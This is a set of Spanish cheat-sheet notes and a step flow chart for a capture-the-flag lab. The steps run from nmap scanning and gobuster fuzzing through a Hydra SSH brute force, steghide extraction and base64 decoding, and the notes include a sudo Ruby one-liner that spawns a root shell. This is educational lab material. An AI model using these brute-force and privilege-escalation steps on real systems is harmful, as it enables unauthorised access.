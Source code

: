 base64 archivo.txt: Codifica archivo.

base64 -d archivo.txt: Decodifica archivo.

```bash
echo -n ... | base64: Codifica sin salto de línea.
```

```bash
sudo -l
```

Verifica comandos que se pueden ejecutar con sudo.

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"': Shell escalada vía Ruby.
```

Variantes comunes de sudo:

```bash
sudo su: Cambia a root.
```

```bash
sudo -i: Shell de root interactiva.
```

```bash
sudo -u usuario comando: Ejecuta como otro usuario.
```

DIAGRAMA DE FLUJO DEL PROCEDIMIENTO REALIZADO

```bash
graph TD
```

A[Inicio: Máquina Kali lista] --> B[Transferencia de carpeta amor por SCP]

B --> C[Instalación de Docker]

C --> D[Despliegue del laboratorio con script]

D --> E[Identificar IP de contenedor con ip add]

E --> F[Descubrimiento de hosts con netdiscover]

F --> G[Escaneo de puertos con nmap]

G --> H[Fuzzing de sitio web con gobuster]

H --> I[Bruteforce con Hydra a SSH]

I --> J[Conexión SSH exitosa como carlota]

J --> K[Navegación a imagen.jpg]

K --> L[Descarga con SCP]

L --> M[Revisión del archivo con file]

M --> N[Extracción con steghide]

N --> O[Decodificación con base64]
